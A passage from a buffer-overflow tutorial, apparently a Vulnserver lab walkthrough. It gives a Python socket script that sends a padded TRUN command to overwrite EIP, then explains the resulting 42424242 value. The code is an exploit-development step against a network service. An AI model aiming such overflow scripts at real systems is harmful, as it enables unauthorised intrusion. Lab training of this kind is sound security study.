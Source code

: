 We are going to be using a script to overwrite the `EIP` 

```python
#!/usr/bin/python
 
import sys, socket

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "B" * 4

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

- Save the script and grant executable permissions, then run it

![](https://i.imgur.com/frEb7Bg.gif)

What we did here is overwrite the `EIP` , the line `shellcode = "A" * 2003 + "B" * 4` sends A, 2003 times then `"B" * 4` will set the `EIP` to 42424242 since B is in position 2

![](https://i.imgur.com/1tv0WSU.png)
